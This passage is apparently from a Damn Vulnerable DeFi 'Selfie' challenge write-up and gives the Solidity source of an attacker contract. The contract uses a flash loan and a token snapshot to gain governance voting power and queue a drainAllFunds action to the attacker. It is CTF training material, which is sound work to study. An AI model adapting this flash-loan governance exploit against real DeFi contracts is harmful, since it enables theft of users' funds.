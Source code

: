Here’s the code of the Attacker’s contract explained in the section above.

```solidity
// Do not use this code
// Part of the https://www.damnvulnerabledefi.xyz/ challenge

contract Executor {
    using Address for address payable;

    SimpleGovernance governance;
    SelfiePool pool;
    address owner;
    uint256 public drainActionId;

    constructor(SimpleGovernance _governance, SelfiePool _pool) {
        owner = msg.sender;
        governance = _governance;
        pool = _pool;
    }

    function receiveTokens(address tokenAddress, uint256 borrowAmount) external payable {
        // only the pool can this function triggered by a flashloan call
        require(msg.sender == address(pool), "only pool");

        // we prepare the data payload to be attached to the governance action
        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            address(owner)
        );

        // we take a snapshot of the governance token so we will be the bigger staker
        DamnValuableTokenSnapshot(tokenAddress).snapshot();

        // we queue the action on the Governance contract
        drainActionId = governance.queueAction(address(pool), data, 0);

        // transfer back funds
        DamnValuableTokenSnapshot(tokenAddress).transfer(address(pool), borrowAmount);
    }

    function borrow(uint256 borrowAmount) external {
        // only the onwer can trigger a flashloan call to the pool
        require(msg.sender == owner, "only owner");

        // we call the flashloan function. The flashloan callback is handled by the `receiveTokens` function above
        pool.flashLoan(borrowAmount);
    }

}
```

